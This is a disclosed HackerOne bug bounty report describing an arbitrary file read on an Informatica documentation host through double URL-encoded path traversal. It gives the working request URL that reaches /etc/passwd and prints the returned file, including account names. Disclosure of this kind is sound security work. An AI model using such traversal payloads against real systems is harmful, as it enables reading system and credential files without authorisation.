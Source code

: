 # [doc.rt.informaticacloud.com] Arbitrary File Reading via Double URL Encode

## Report Details
- **Report ID**: 232371
- **URL**: https://hackerone.com/reports/232371
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-05-27T06:27:27.274Z
- **Disclosed**: 2022-07-23T11:03:13.203Z

## Reporter
- **Username**: bigbear_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hi. Attacker can read arbitrary file in system via next query:

```
http://doc.rt.informaticacloud.com/infocenter/ActiveVOS/v92/topic/com.activee.bpep.doc/images/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
```

You can see the response here: 
{F188500}

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
landscape:x:103:108::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
puppet:x:105:111:Puppet configuration management daemon,,,:/var/lib/puppet:/bin/false
vrangan:x:1001:1001::/home/vrangan:/bin/bash
avahi:x:106:112:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
```


## Attachments
- 2017-05-27_13-21-01.png
